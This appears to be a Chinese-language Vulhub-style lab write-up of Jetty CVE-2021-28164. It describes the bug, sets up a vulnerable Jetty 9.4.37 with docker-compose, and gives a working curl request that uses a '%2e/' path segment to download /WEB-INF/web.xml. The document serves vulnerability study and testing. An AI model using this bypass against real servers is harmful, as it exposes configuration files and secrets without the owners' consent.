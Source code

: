# Jetty WEB-INF 敏感信息泄露漏洞 CVE-2021-28164

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

![image-20220224164457554](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241644641.png)

## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![image-20220224164854151](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241648274.png)

使用`%2e/`来绕过限制下载web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![image-20220224164909832](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241649911.png)


